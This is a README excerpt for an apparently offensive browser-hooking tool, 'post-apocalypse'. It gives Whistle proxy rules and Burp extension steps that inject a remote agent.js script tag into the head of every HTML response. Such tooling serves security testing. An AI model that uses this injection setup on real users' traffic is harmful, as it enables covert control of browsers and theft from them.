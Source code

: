 ### Why proxy?
For optimal setup, you'll need to:
- Serve malwindow and agent from http(+s)://post.apocalypse/...
- Have agent-api & malwindow-api accessible websocket available at ws(+s)://post.apocalypse/...
- have agent.js injected into to every browser Window (excluding post.apocalypse malwindow), prior to any other script.

## Proxy setup
### [Whistle](https://github.com/avwo/whistle)
rules
```
https://post.apocalypse http://127.0.0.1:28010
http://post.apocalypse http://127.0.0.1:28010
wss://post.apocalypse ws://127.0.0.1:28010
ws://post.apocalypse ws://127.0.0.1:28010
!$post.apocalypse * resReplace://{post-apocalypse.json}  includeFilter://resH:content-type=/text\/html/ 
```

replace head to inject agent 
values/post.apocalypse.json
```
<head>:<head><script src="https://post.apocalypse/agent.js"></script>

```

### [Burp](https://portswigger.net/burp)
1. Download [Jython standalone JAR](http://www.jython.org/download.html)
2. Open burp -> Extender -> Options -> Python Environment -> Select File -> Choose the Jython standalone JAR
3. Open Burp -> Extender -> Extensions -> Add -> Choose apocalypse.py file inside post-apocalypse/proxy-helpers/burp directory.
4. From now on, agent.js will be injected into head tag for each HTML response



